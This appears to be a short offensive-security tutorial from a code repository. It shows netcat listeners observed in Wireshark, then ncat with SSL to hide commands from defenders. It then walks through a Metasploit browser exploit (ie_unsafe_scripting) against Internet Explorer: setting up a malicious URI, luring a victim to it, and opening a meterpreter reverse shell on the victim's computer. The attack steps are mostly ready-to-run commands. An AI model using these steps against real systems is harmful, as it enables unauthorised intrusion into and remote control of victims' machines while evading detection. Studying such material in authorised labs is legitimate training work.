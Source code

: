 # Wireshark Monitoring

1. Using your kali box create a netcat listener on any port
```sh
# nc -nlvp 12345
```

2. Use Wireshark to capture this connection.

3. Using a different terminal window, connect to port 12345
```sh
# nc 0.0.0.0 12345
```

4. Send a few messages back and forth between the windows and observe the results in Wireshark. 


Notice how everything is clear text. We do not want our commands visible to defenders. Let's use ncat to create an encrypted connection.

1. Listen for a connection
```sh
ncat 0.0.0.0 12345 --ssl
```

2. Connect 
```sh
ncat -nvlp 12345 --ssl
```

3. Send the same messages and view the results. Notice how encryption now hides your commands.

## Exploit a vulnerable host with wireshark
This exploit will find a vulnerable browser and exploit it to gain a reverse shell.

1. Monitor network traffic to identify User-Agent strings. This will help you identify exploits for vulnerable browsers.

2. Setup Metasploit server
Once you have identified the exploit you wish to use launch metasploit to setup a basic webserver and expect a vulnerable IE browser to connect.

- Use the ie_unsafe_scripting exploit
- Set the exploit path to the address of the webserver.  (192.168.1.2/evil)
- Module gives a lot of additional information to read

```sh
msfconsole -x "use /exploit/windows/browser/ie_unsafe_scripting; set ALLOWPROMPT true; set URIPATH /evil; info; run"
```

3. Lure the victim to your website
This can be done however you please.

4. When a victim connects, and the exploit is successful you will receive a session.

```sh
msf6 exploit(windows/browser/ie_unsafe_scripting) > sessions 1
```

4. Launch Shell
The shell will give you access to the victim computer.
```sh
meterpreter > shell

C:\Users\Desktop

```
